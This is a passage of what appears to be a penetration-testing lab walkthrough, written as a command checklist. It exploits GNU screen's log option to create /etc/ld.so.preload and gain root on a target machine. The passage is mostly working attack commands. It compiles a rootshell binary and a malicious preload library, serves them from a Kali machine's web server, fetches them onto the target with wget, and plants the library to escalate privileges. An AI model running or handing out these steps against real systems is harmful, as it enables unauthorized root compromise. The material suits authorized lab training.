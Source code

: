 - [ ] Compile `rootshell.c` to `rootshell.c` in the container on your Kali Machine
```
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
```

- [ ] Move files to root in the container to be copied out into your Kali Machine
```
cd /root
cp /tmp/libhax.so .
cp /tmp/rootshell .
```

- [ ] Copy out the files onto your Kali Machine
```
sudo cp /var/lib/machines/testmachine1/root/libhax.so .
sudo cp /var/lib/machines/testmachine1/root/rootshell .
```

- [ ] Exit container on your Kali Machine
```
exit
logout
```

- [ ] Serve file with a python web server on your Kali Machine
```bash
python3 -m http.server 80
```

- [ ] Download files in the `/tmp` directory on the Target Machine
```
cd /tmp
wget http://192.168.xxx.xxx:80/libhax.so
wget http://192.168.xxx.xxx:80/rootshell
```

- [ ] Check permission rights of our files on the Target Machine
```
ls -lah /tmp/libhax.so
ls -lah /tmp/rootshell
```
- Note that the owner is our current user

- [ ] Navigate to `/etc` directory on the Target Machine
```
cd /etc
```

- [ ] Make newly created directories with all permissions for everyone on the Target Machine
```
umask 000
```

- [ ] Create our `/etc/ld.so.preload` file on the Target Machine
```
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
```
- `-L` creates a log file named `ld.so.preload`
	- This specifies libraries to use before the default libraries are used
	- We write our own library (`libhax.so`) to the log file
- Low priv users cannot create new files in `/etc` but we used `screen` to create it for us
